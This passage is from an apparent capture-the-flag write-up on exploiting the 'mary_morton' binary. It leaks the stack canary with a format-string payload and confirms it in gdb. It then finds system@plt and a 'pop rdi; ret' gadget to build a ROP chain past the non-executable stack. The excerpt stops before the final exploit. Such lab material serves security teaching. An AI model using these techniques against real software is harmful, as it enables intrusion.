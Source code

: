 So a stack canary for 64 bit systems is an 8 byte hex string that ends in a null byte. Looking through the output, we can see such a hex string at offset 23 with `b7241689fbb16c00`. We can confirm that this is the stack canary once we reach the breakpoint by examining the value of `rbp-0x8`, since from the source code we can see  that is where the canary is:

```
Breakpoint 1, 0x000000000040094a in ?? ()
gdb-peda$ lx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.
Undefined command: "lx".  Try "help".
gdb-peda$ x/x $rbp-0x8
0x7fffffffdf28:    0x00
gdb-peda$ x/g $rbp-0x8
0x7fffffffdf28:    0xb7241689fbb16c00
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffdf40:
 rip = 0x40094a; saved rip = 0x4008b8
 called by frame at 0x7fffffffdf80
 Arglist at 0x7fffffffde98, args:
 Locals at 0x7fffffffde98, Previous frame's sp is 0x7fffffffdf40
 Saved registers:
  rbp at 0x7fffffffdf30, rip at 0x7fffffffdf38

```

So we can see that it is indeed the stack canary, which is at offset 23. We can also see that the offset between the stack canary and the rip register is 16, so after the canary we will need to have an 8 byte offset before we hit the return address.

The next thing we will need to deal with is the Non-Executable stack. Since it is Non-Executable, we can't simply push shellcode onto the stack and execute it, so we will need to use ROP in order to execute code. Looking at the imports in ida, we can see that system is in there. So we should be able to call system using it's `plt` address. First we need to find it, which can be accomplished by using objdump:

```
objdump -D mary_morton | grep system
00000000004006a0 <system@plt>:
  4008e3:    e8 b8 fd ff ff           callq  4006a0 <system@plt>
```

So the address of system is `0x4006a0`. The next thing that we will need is a ROP gadget which will pop an argument into a register for system, then return to call it. We can accomplish this by using ROPgadget:

```
$    ROPgadget --binary mary_morton | less
```

Looking through the list of ROPgadgets, we can see one that will accomplish the job:

```
0x0000000000400ab3 : pop rdi ; ret
```
